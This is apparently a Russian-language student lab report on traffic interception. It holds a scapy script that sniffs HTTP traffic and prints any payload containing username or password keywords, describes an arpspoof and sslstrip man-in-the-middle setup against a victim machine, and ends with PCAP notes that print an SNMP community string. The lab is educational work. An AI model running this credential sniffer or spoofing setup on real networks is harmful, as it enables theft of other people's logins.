 #### Анализ трафика

##### Цель:
* Доработать скрипт packetsniff.py чтобы был виден запрашиваемый Url
* Проанализировать PCAP файл



##### Доработанный скрипт

<details>
<summary>packetsniff.py</summary>

```

#!/usr/bin/python3

import scapy.all as scapy

from scapy.layers import http

def sniff(interface):
  scapy.sniff(iface=interface, store=False, prn=process_sniffed_packets)

def get_url(packet):
  if packet.haslayer(http.HTTPRequest):
      url = packet[http.HTTPRequest].Host + packet[http.HTTPRequest].Path
      return url

def get_login_info(packet):
  if packet.haslayer(http.HTTPRequest):
      if packet.haslayer(scapy.Raw):
          load = packet[scapy.Raw].load
          #load = str(load)
          keybword = ["usr", "uname", "username", "pwd", "pass", "password"]
          for eachword in keybword:
              if eachword.encode() in load:
                  return load


def process_sniffed_packets(packet):
  if packet.haslayer(http.HTTPRequest):
      url = get_url(packet)
      print("[+] HTTP Request>>" + str(url))

      login_info = get_login_info(packet)
      if login_info:
          print("\n\n[+] Possible username and password >>" + str(login_info) + "\n\n")




sniff("eth0")
```
</summary>

</details>

##### На компьютере атакующего
<details>
<summary>Конфигурация</summary>

  ![alt-текст](/lab-9/img/kos-ifconfig.png)
</summary>


</details>

<details>
<summary>запускаем arpspoof</summary>

  ![alt-текст](/lab-9/img/arpspoof.png)
</summary>

</details>


<details>
<summary>запускаем sslstrip</summary>

  ![alt-текст](/lab-9/img/sslstrip_start.png)
</summary>

</details>

<details>
<summary>результат работы скрипта</summary>

  ![alt-текст](/lab-9/img/packetsniff.py.png)
</summary>
</details>

<details>
<summary>cat sslstrip.log</summary>

##### Видимо sslstrip не может разобрать входящие данные
  ![alt-текст](/lab-9/img/sslstrip-debug.png)
</summary>

</details>
<details>
<summary>результат pscketsniff с ручным вводом адреса</summary>

##### Если вручную забить адрес сайта http://klavogonki.ru , то Url появляется в выводе скрипта.

  ![alt-текст](/lab-9/img/packetsniff-http.png)
</summary>

</details>
##### На компьютере жертвы
<details>
<summary>Конфигурация</summary>

  ![alt-текст](/lab-9/img/client-data.png)
</summary>

</details>

<details>
<summary>site-http</summary>

##### Если вручную забить адрес сайта http://...... , то только белая страница видна

  ![alt-текст](/lab-9/img/site-http.png)
</summary>

</details>

#### Выводы по sslstrip
У меня на тестовом стенде с вновь установленной kali версии(скриншот ниже)
не удалось получить данные из https запроса при помощи sslstrip.

<details>
<summary>version</summary>

![alt-текст](/lab-9/img/kos-version.png)

</summary>  
</details>



##### Анализ файла

<details>
<summary>pcap</summary>

```

1. 192.168.121.10 сообщил что порт gi0/2 отключился.  
2. К сети подключился клиент с маком 00:21:70:e9:bb:47 и получил ip 192.168.30.11 DHCP.
3. 192.168.121.10 сообщил что gi0/2 подключен
4. 2003:51:6012:120:13 опросил  2003:51:6012:120:2 по SNMP c community n5rAD1ig314IqfioYBWw

5. 2003:51:6012:110::b15:22 соеденился по SSH к  2003:51:6012:121::2
6. 192.168.121.2 сообщил(опправил syslog) о том что пакет на соединение попало в разрешающее правило
7. 192.168.121.2 слил по tftp конфиг на 192.168.110.10
```

</summary>

</details>
